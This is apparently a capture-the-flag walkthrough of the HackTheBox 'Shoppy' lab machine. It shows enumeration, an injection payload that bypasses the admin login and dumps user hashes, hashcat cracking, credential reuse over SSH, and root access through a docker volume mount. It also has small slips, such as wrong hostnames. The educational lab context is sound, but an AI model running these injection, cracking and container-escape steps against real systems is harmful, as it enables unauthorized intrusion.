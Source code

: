 ```yaml
---
cover: ../../../.gitbook/assets/Shoppy.png
coverY: 250.98666666666665
layout:
  cover:
    visible: true
    size: hero
  title:
    visible: true
  description:
    visible: true
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Shoppy



## Scanning

### Network

First, add the virtual DNS :

```bash
echo '10.10.11.180 shoppy.htb'|tee -a /etc/hosts
```

Scan the target host :

```bash
nmap shoppy.htb
```

The output is :&#x20;

<figure><img src="../../../.gitbook/assets/shoppy-nmap.png" alt=""><figcaption></figcaption></figure>

Go to http://shoppy.htb and you will have this page :&#x20;

<figure><img src="../../../.gitbook/assets/shoppy-htb.png" alt=""><figcaption></figcaption></figure>

### Web

Try to enumerate subdirectories with `dirbuster` or `wfuzz` :

```bash
wfuzz -u http://shoppy.htb/FUZZ -w /usr/share/wordlists/dirb/common.txt --hc 404
dirbuster -u http://shoppy.htb -l /usr/share/wordlists/dirb/common.txt
```

<figure><img src="../../../.gitbook/assets/shoppy-wfuzz.png" alt=""><figcaption></figcaption></figure>

Scan subdomains.

```bash
wfuzz -u http://stocker.htb \
      -H "Host: FUZZ.shoppy.htb" \
      --hc 301 \
      -w /usr/share/secLists/master/Discovery/DNS/subdomains-top1million-110000.txt
```

Try to go to http://shoppy.htb/admin and you get this result : &#x20;

<figure><img src="../../../.gitbook/assets/shoppy-login.png" alt=""><figcaption></figcaption></figure>

It seems to be a custom page, try sql injection :&#x20;

<figure><img src="../../../.gitbook/assets/shoppy-injection.png" alt=""><figcaption></figcaption></figure>

It works, you get this page :&#x20;

<figure><img src="../../../.gitbook/assets/shoppy-admin-panel.png" alt=""><figcaption></figcaption></figure>

You can inject code to return all data and download the JSON file :

```sql
'; return '' == '
```

```json
[
    {
        "_id":"62db0e93d6d6a999a66ee67a",
        "username":"admin",
        "password":"23c6877d9e2b564ef8b32c3a23de27b2"
    },
    {
        "_id":"62db0e93d6d6a999a66ee67b",
        "username":"josh",
        "password":"6ebcea65320589ca4f2f1ce039975995"
    }
]
```

There are two hashed passwords : `23c6877d9e2b564ef8b32c3a23de27b2` and `6ebcea65320589ca4f2f1ce039975995`. Crack these hashes with Hashcat :

```bash
echo '23c6877d9e2b564ef8b32c3a23de27b2 6ebcea65320589ca4f2f1ce039975995'|tee hashes.txt
hashcat -m 0 hashes.txt /usr/share/wordlists/rockyou.txt
hashcat --show -m 0 hashes.txt /usr/share/wordlists/rockyou.txt
```

Hashcat has cracked a hash for josh :

```
6ebcea65320589ca4f2f1ce039975995:remembermethisway
```

Thus you have credentials `josh:remembermethisway`.&#x20;

You get the subdomain `mattermost.shoppy.htb`. Thus go to http://mattermost.shoppy.htb.

<figure><img src="../../../.gitbook/assets/shoppy-mattermost-login.png" alt=""><figcaption></figcaption></figure>

Try the credentials `josh:remembermethisway`. Go to "Deploy Machine" tab and you will find new credentials.

<figure><img src="../../../.gitbook/assets/shoppy-ssh-credentials.png" alt=""><figcaption></figcaption></figure>

Try the SSH connection :

```bash
ssh jaeger@shoppy.htb  # password "Sh0ppyBest@pp!"
```

<figure><img src="../../../.gitbook/assets/shoppy-ssh-josh.png" alt=""><figcaption></figcaption></figure>

```bash
cat /home/jaeger/user.txt
```

Then, list sudo permissions :

```bash
sudo -l
```

<figure><img src="../../../.gitbook/assets/shoppy-sudo.png" alt=""><figcaption></figcaption></figure>

Import file from the target machine to the attacker to decompile it.

```bash
# target
cd /home/deploy/
python3 -m http.server
```

```bash
curl -o password http://shoppt.htb:8000/password-manager
```

Start Ghidra and decompile the file.

<figure><img src="../../../.gitbook/assets/shoppy-sample.png" alt=""><figcaption></figcaption></figure>

Try to execute the following command on the target machine :

```bash
sudo -u deploy /home/deploy/password-manager  # password "Sample"
```

The password is valid, it returns new credentials `deploy:Deploying@pp!`. Try these credentials with SSH :

```bash
ssh deploy@shoppy.htb  # password "Deploying@pp!"
```

It works and the user deploy has the group `docker`.

```bash
docker images
```

There is an existing image named `alpine`. Mount the folder `/root` in on `/mnt` :

```bash
docker run -it -v /root:/mnt alpine
```

Once you're inside of the container, you can find the flag in `/mnt` folder :

```bash
cat /mnt/root.txt
```
